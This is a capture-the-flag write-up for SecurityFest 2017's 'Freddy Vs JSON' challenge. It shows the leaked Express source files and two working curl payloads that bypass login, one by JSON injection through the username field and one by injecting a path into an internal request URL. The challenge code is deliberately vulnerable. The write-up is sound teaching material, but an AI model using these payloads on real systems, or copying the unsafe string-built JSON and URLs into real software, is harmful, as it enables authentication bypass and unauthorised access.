 ```yaml
---
private: 'false'
layout: post
featured: false
published: true
modified: 2017-06-02
date: 2017-06-02
comments: true
title: SecurityFest2017 - Freddy Vs JSON
tags: schemainjection
mathjax: false
imagefeature: /images/express.jpg
description: SecurityFest2017 - Freddy Vs JSON Writeup
category: Web Exploitation
chart: null
---
```



## Problem

```
Can you hack my friends facebook? no? what about this then?
Solves: 19
Service: http://52.208.132.198:2999/
Author: avlidienbrunn
```


## Writeup

First impression i thought that was SQL Injection challenges to get into login bypass but after a while
i just figure it they using Express that was node web framework.

```
➔ curl http://52.208.132.198:2999/ -v
*   Trying 52.208.132.198...
* Connected to 52.208.132.198 (52.208.132.198) port 2999 (#0)
> GET / HTTP/1.1
> Host: 52.208.132.198:2999
> User-Agent: curl/7.47.0
> Accept: */*
> 
< HTTP/1.1 200 OK
< X-Powered-By: Express
< Content-Type: text/html; charset=utf-8
< Content-Length: 1813
< ETag: W/"715-DSGKN9kwhacZR6TO5Ab8xoUqS9Y"
< Date: Fri, 02 Jun 2017 02:25:59 GMT
< Connection: keep-alive
< 
```

so let's try to find some file configuration that's usually used by node and i just found
`package.json` is readable for us.

```js
{
    name: "freddyvsjson",
    version: "1.0.0",
    description: "hi",
    main: "index.js",
    dependencies: {
    body-parser: "^1.17.1",
    express: "^4.15.2",
    express-jwt: "^5.3.0",
    request: "^2.81.0"
},
devDependencies: { },
scripts: {
    test: "echo "Error: no test specified" && exit 1"
},
author: "",
license: "ISC"
}
```

this file actually leaking some information for further testing. we now have idea what module used.
and again we can read `index.js` content.

```js
require('./local');
var crypto = require('crypto');
var express = require('express');
var request = require("request");
var app = express();

var bodyParser = require('body-parser');
app.use(bodyParser.urlencoded({
	extended: true
})); 

app.use(express.static('.'));

app.listen(2999, function () {
  console.log('Example app listening on port 2999!')
});

index = `<!DOCTYPE html>
<html lang="en">
  <head>
      <meta charset="UTF-8">
      <meta name="viewport" user-scalable="no" content="width=device-width, initial-scale=1">
      <script src="https://code.jquery.com/jquery-1.12.4.min.js"></script>
      <script src="https://netdna.bootstrapcdn.com/bootstrap/3.3.2/js/bootstrap.min.js"></script>
      <script src="/static/index.js"></script>
      <link rel="stylesheet" href="https://netdna.bootstrapcdn.com/bootstrap/3.3.2/css/bootstrap.min.css" />
      <link rel="stylesheet" href="https://cdnjs.cloudflare.com/ajax/libs/mdbootstrap/4.3.0/css/mdb.min.css" />
      <link rel="stylesheet" href="/static/freddy.css" />
  </head>
  <body><section class="login-info">
<div class="container">
  <div class="row main">
       <div class="form-header elegant-color">
          <h1 class="text-center ">Authenticate</h1>
        </div>
    <div class="main-content">
            
          <div class="input-group ">
            <span class="input-group-addon"><span class="glyphicon glyphicon-envelope" aria-hidden="true"></span></span>
            <input id="user" type="text" class="form-control text-center" name="email" placeholder="Enter your Email">
          </div>
          <div class="input-group">
            <span class="input-group-addon"><span class="glyphicon glyphicon-lock" aria-hidden="true"></span></span>
            <input id="pass" type="password" class="form-control text-center" name="password" placeholder="Enter your Password">
          </div>
          
          <div class="form-group ">
              <a href="#" id="login" type="button"  class="btn btn-danger btn-lg btn-block login-button">login</a>
          </div>
          
          <div class="form-group" id="container">
          </div>
      
      </div>
    </div></body></html>`;

app.get('/', function (req, res) {
	res.send(index);
});

function atob(str){
	return Buffer(str, 'base64').toString()
}

function btoa(str){
	return Buffer(str).toString('base64')
}

app.post("/", function(req, res){
	if(req.body.user && req.body.pass){
		user = req.body.user;
		pass = crypto.createHash('md5').update(req.body.pass).digest("hex");
		//Query internal login service
		request("http://127.0.0.1:3001/createTicket/"+user+"/"+pass, function(error, response, body){
			console.log(body);
      try{
			   body = JSON.parse(body);
      }catch(x){
         body = {"authenticated":false, "user":req.body.user, "id":0}
      }
			if(body.authenticated){
				body.response = "Congratulations: " + process.env.FLAG;
			}else{
        body.response = "Invalid username or password!";
      }
			res.send(JSON.stringify(body));
		});
	}else{
		res.send("hi");
	}
})
```

and we found another file `local.js` which is included in first line of `index.js`

```js
var express = require('express');
var crypto = require('crypto');
var localapp = express();

localapp.listen(3001, '127.0.0.1', function () {
  console.log('JWT service up!')
});

db = [
	{"user":"admin","pass":"9c72256fdb7196d2563a38b84f431491","id":"1"}
];

function atob(str){
	return Buffer(str, 'base64').toString()
}

function btoa(str){
	return Buffer(str).toString('base64')
}

function verify(user, pass){
	db_user = db[0]; //TODO: sync with LDAP instead
	if(user && user == db_user["user"]){
		if(pass && pass == db_user["pass"]){
			return db_user["id"];
		}
	}
	return 0;
}

localapp.get('/createTicket/:user/:pass', function (req, res) {
	user = req.params.user;
	pass = req.params.pass;
	userid = verify(user, pass);
	if(userid){
		res.send('{"authenticated":true, "user":"'+user+'", "id":'+userid+'}');
	}else{
		res.send('{"authenticated":false, "user":"'+user+'", "id":'+userid+'}');
	}
})
```

after trying to understand how this app works, i am trying to bruteforce this password hash `9c72256fdb7196d2563a38b84f431491` 
and my guess about SQL injection is gone because they using hardcoded db rather than using connection to some databases.

so the hash isn't crackable not get anyhing, and again i just read the `index.js` file to find some other ways to get authenticated
then i found this part in `index.js` can be exploited

```js
  try{
		   body = JSON.parse(body);
  }catch(x){
     body = {"authenticated":false, "user":req.body.user, "id":0}
  }
```

if we fail to authenticate with correct password the code will trigger catch, as we can see we can control
`req.body.user` variable so we can overwrite the `"authenticated":false`.

we can get flag with this curl
`curl -X POST http://52.208.132.198:2999/ --data 'user=admin", "authenticated":"true&pass=foobar'`

we have another way for bypass the login exploiting this line in `index.js`

```js
request("http://127.0.0.1:3001/createTicket/"+user+"/"+pass, function(error, response, body){
```

we can simply input user like `admin/<hash>?` and password `anything`, question mark at the end to ignore whatever after that

```
curl -X POST http://52.208.132.198:2999/ --data 'user=admin/9c72256fdb7196d2563a38b84f431491?&pass=foobar'
```

so we got the flag `{"authenticated":true,"user":"admin","id":1,"response":"Congratulations: SCTF{1nj3ction_5chm1nj3ctioN}"}`